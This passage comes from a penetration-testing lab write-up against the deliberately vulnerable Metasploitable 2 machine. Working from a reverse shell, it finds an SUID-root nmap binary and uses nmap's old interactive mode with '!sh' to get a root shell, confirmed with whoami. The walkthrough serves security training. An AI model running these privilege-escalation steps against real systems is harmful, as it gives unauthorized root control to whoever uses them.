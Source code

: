         ![Reverse Shell SUID](./screenshots/file-upload-attack/reverse-shell-suid.jpg)

- The results show: 
    ```
    /usr/bin/nmap
    ```
    - This is very promising — because `nmap` with SUID bit set can be used to escalate to root, especially on older versions like the one in Metasploitable 2. 
        - Old versions of `nmap` (pre-5.21) had an interactive mode (`nmap --interactive`) which allowed users to execute system commands.
        - If that version is installed as SUID root, then any system commands executed through it will run with root privileges.

**Step 5**: Escalate Privileges:

- Run the following in the reverse shell:
    ```bash
    /usr/bin/nmap --interactive
    ```
- We get a prompt like this:
    ```shell
    Nmap>
    ```
- Then type:
    ```bash
    !sh
    ```
- This `!sh` tells `nmap` to spawn a shell.
- If successful, we will get a root shell. Now type:
    ```bash
    whoami
    ```
- It returns:
    ```bash
    root
    ```
- We've successfully escalated privileges to root!
- Screenshot of successful escalation to root privileges:
